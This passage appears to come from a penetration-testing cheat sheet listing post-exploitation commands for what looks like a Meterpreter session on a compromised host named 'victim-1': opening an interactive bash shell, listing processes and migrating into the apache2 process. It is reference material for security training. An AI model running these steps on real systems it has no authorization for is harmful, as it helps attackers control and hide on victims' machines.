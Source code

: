 ### shell <a href="#shell" id="shell"></a>

```bash
shell
```

* Open a native Linux `bash` sessions by running after the `shell` command

```bash
/bin/bash -i
```

```bash
www-data@victim-1:/app$
```

* Terminate the `shell` session with **`CTRL+C`** or with `exit` command

### ps <a href="#ps" id="ps"></a>

```bash
ps
```

```bash
Process List
============
 PID  Name              User      Path
 ---  ----              ----      ----
 1    /bin/bash         root      /bin/bash /startup.sh
 7    logger            root      logger -loc 1 --dont_kill
 8    logger            root      logger -loc 2 --dont_kill
 9    logger            root      logger -loc 3 --dont_kill
 10   logger            root      logger -loc 4 --dont_kill
 11   logger            root      logger -loc 5 --dont_kill
 12   logger            root      logger -loc 6 --dont_kill
 [...]
```

### migrate <a href="#migrate" id="migrate"></a>

```bash
migrate 585
```

* It could not work due to lack of sufficient privileges/permissions

```bash
migrate -N apache2
```

### ifconfig <a href="#ifconfig" id="ifconfig"></a>

```bash
ifconfig
```

* Works on Windows O.S.
